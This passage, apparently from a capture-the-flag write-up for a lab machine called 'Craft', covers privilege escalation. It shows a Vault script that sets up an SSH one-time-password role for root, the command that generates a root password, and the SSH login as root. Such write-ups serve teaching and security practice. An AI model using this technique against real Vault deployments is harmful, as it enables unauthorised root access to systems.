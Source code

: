 ```
gilfoyle@craft:~$ wc -c user.txt
33 user.txt
```

## Privilege escalation

The privilege escalation steps for this machine are pretty fast, but it took me
a bit because I didn't know the software to use.

In the `craft-intra` repository there's a file that points us towards the
solution, `vault/secrets.sh`:
```bash
#!/bin/bash

# set up vault secrets backend

vault secrets enable ssh

vault write ssh/roles/root_otp \
    key_type=otp \
    default_user=root \
    cidr_list=0.0.0.0/0`
```
Basically there's a software named Vault that allows us to create one time
passwords for ssh, and as it's configured on the machine, we can create
passwords for root also, you can read more about it
[here](https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html).

With a simple command we can create a one time password:
```
gilfoyle@craft:~$ vault write ssh/creds/root_otp ip=127.0.0.1
Key                Value
---                -----
lease_id           ssh/creds/root_otp/428897bc-20d3-426b-93ab-7cbfe01597dd
lease_duration     768h
lease_renewable    false
ip                 127.0.0.1
key                7a51b704-46e4-4e93-5a08-4fabef7883bb
key_type           otp
port               22
username           root
```

And use `7a51b704-46e4-4e93-5a08-4fabef7883bb` to login as root:
```
gilfoyle@craft:~$ ssh root@127.0.0.1
root@craft:~# wc -c /root/root.txt
33 /root/root.txt
```

Thanks for reading!
